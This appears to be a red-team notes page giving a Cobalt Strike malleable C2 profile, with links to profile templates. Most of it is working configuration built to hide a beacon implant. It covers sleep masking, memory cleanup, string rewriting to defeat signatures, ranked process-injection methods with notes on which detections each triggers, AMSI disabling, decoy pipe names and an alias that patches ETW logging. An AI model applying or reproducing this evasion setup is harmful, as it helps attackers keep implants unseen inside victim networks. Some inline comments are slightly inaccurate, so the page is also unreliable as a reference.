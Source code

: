 ### CS Profile Templates
- https://github.com/threatexpress/malleable-c2/tree/master

### Profile Configuration
#### Process Injection 
- [Process Injection CS Documentation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_process-injection.htm?Highlight=execute%7B)
- https://boschko.ca/cobalt-strike-process-injection/

```json copy showLineNumbers {53}
# Memory permissions and cleanup
stage {

    set userwx "false";
    
    # Enables sleep obfuscate, It only obfuscates the beacon itself, It does nothing for the artifacts that got the beacon into memory in the firstp place
    set sleep_mask "true";  

    # Cleans the self bootstraping reflective dll package that loaded the beacon payload into memory the first place
    set cleanup "true";
    
    # Make the image size bigger than Its usual
    set image_size_x86 "512000";
    set image_size_x64 "512000";

    # Set the minimum size that will be allocated in the remote process memory
    set min_alloc "512000"
    # Change strings in Memory
    transform-x86{
        strrep "This program cannot be run" "Blablabla";

        # this is an exported function, so we can change methods names as well using this way
        strrep "ReflectiveLoader" "DoSomeStuff";

        # Inject some no op bytes before the PE header
        prepend "\x90\x90\x90\x90";
    }

    transform-x64{
        strrep "This program cannot be run" "Blablabla";

        # this is an exported function, so we can change methods names as well using this way
        strrep "ReflectiveLoader" "DoSomeStuff";

        # Inject some no-op bytes before the PE header
        prepend "\x90\x90\x90\x90";
    }

}

# This is where we can control all the process injection behaviours
process-inject {
    # Set memory for BOF as rw instead of rwx
    set startrwx "false";
    
    # Set memory of BOF as rx when executing the BOF instead of rwx
    set userwx "false";

    # Zero out / Clean the memory of the BOF after execution
    set bof_reuse_memory "false";

    # specify how we execute code in the remote process
    # Un comment the methods you want the beacon to choose from, The order is important! Each step will be attempted (if applicable) until successful
    execute {
        ## self-injection Injects in the same process of the beacon (the calling process).
        # Use [function] “module!function+0x##” to specify the start address to spoof. For remote processes, ntdll and kernel32 are the only recommended modules to pull from. The optional 0x## part is an offset added to the start address.
        CreateThread "ntdll!RtlUserThreadStart+0x42";
        CreateThread;

        ## Injection via suspened processes (SetThreadContext|NtQueueApcThread-s)
        # OPSEC - when you use SetThreadContext; your thread will have a start address that reflects the original execution entry point of the temporary process.
        # Meaning that when you modify the context of the thread using SetThreadContext, you can set the instruction pointer (EIP) to point to the original entry point of the remote process that you injected into. In other words, you can set the EIP to the memory address where the legitimate code of the target process would typically start executing when it is launched normally.
        SetThreadContext;
        NtQueueApcThread-s;
        
        ## Injection into existing processes
        # OPSEC Uses RWX stub - Detected by Get-InjectedThread. Less detected by some defensive products.
        NtQueueApcThread; 
        
        # CreateRemotThread - Vanilla cross process injection technique. Doesn't cross session boundaries
        # OPSEC - fires Sysmon Event 8
        CreateRemoteThread;
        
        # Injection across session boundaries
        # OPSEC - fires Sysmon Event 8. Uses Meterpreter implementation and RWX stub - Detected by Get-InjectedThread
        RtlCreateUserThread; 
        }
}

post-ex {
        # Disable AMSI
        set amsi_disable "true";

        # Spawnto
        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";

        # change the smb pipe names of SMB to anything random
        set pipename "totally_not_beacon, legitPipe##";
}

# $1 - the id for the beacon
# $2 - the cmdlet and arguments
# $3 - [optional] if specified, powershell-import script is ignored and this argument is treated as the download cradle to prepend to the command
# $4 - [optional] PATCHES
alias powerpick-patched {
   bpowerpick($1, $2, $3, "PATCHES: ntdll.dll,EtwEventWrite,0,C3 ntdll.dll,EtwEventWrite,1,00");
}
# Then we can use beacon> assembly-patched C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
# The same for powerpick 


```
